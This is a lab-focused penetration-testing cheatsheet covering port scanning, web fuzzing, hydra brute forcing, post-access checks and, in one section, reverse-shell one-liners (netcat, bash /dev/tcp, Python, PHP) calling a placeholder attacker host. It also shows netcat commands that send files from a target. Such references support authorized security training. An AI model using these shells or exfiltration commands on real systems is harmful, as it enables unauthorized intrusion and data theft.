 # Enumeration & Initial Access — Cheatsheet

> Quick, lab-focused reference for enumeration, web fuzzing, credential checks, and basic reverse shells.  
> **Use only in authorized, isolated lab environments.** Redact real IPs/credentials in public notes.

---

## Quick workflow
1. Recon / port scan  
2. Service enumeration (banner/version, HTTP content, SMB/FTP, etc.)  
3. Web testing: host headers, virtual hosts, dir fuzzing, login pages  
4. Credential checks / brute force (only on lab targets)  
5. Gain initial access (lab shells)  
6. Post-access enumeration for privilege escalation

---

## Port scanning
- Full TCP port scan: `nmap <TARGET_IP> -p- -T4 -v`  
- Scan specific ports with service detection: `nmap <TARGET_IP> -p 22,80 -A`

---

## HTTP / hosts / basic web checks
- Add host mapping: edit `/etc/hosts` and add: `<TARGET_IP> example.lab`  
- Basic web scan: `nikto -host <TARGET_IP>`  
- If a login page is present, search for default creds or app-specific CVEs (lab-only).

---

## Directory & vhost fuzzing
- dirsearch: `dirsearch -u http://example.lab`  
- gobuster dir: `gobuster dir -u http://example.lab/ -w /usr/share/seclists/Discovery/Web-Content/big.txt`  
- ffuf: `ffuf -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://example.lab/FUZZ`  
- gobuster vhost: `gobuster vhost -u http://example.lab/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt`  
**Tips:** inspect page source, cookies, JS for endpoints or usernames; use Burp Suite for interactive testing.

---

## Brute forcing / credential testing (LAB ONLY)
- Hydra template (adjust to form and failure string):  
  `hydra -l admin -P /path/to/passlist.txt <TARGET_IP> http-post-form "/login:username=^USER^&password=^PASS^:Invalid login"`  
  Replace `"Invalid login"` with the real failure string from the form. Confirm permission to test brute force.

---

## Service-specific checks
- For services like FTP, Samba, etc., research lab-safe exploits and check for anonymous access, writeable shares, or known CVEs.

---

## Listeners & reverse shells
- Start a listener: `nc -nvlp 5555`  
- Netcat (if `-e` available): `nc -e /bin/sh <ATTACKER_IP> <PORT>`  
- Bash reverse shell: `bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1`  
- Python reverse shell: `python -c 'import socket,subprocess,os;s=socket.socket();s.connect(("<ATTACKER_IP>",<PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`  
- PHP reverse shell (if php CLI available): `php -r '$sock=fsockopen("<ATTACKER_IP>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'`  
*(PowerShell variants for Windows are available in many cheat sheets — keep a trusted local copy.)*

---

## Transferring files (netcat)
- On attacker (receive): `nc -nvlp <LOCAL_PORT> > output-file`  
- On target (send): `nc <ATTACKER_IP> <LOCAL_PORT> < file-to-send`

---

## Post-shell basics (sanitized)
- Immediately run: `whoami`, `id`, `hostname`, `uname -a`, `pwd`, `ls -la`, `ps aux`  
- Check `sudo` rights: `sudo -l`  
- From there, look for SUID binaries, weak cron jobs, readable credentials, misconfigurations, etc. Document findings and remediation in `/reports/`.

---

## Safety & hygiene
- Always use placeholders in public notes (`<TARGET_IP>`, `<ATTACKER_IP>`, `LAB-BOX`).  
- Never publish real credentials or client-identifying information.  
- Prefer high-level descriptions and sanitized outputs for public posts.  
- Use isolated lab environments (VMs, containers, or dedicated lab networks).

---

## References & further reading
- Official docs for `nmap`, `ffuf`, `gobuster`, `dirsearch`, `nikto`, `hydra` and reverse-shell cheat sheets. Keep a curated local copy for lab use.
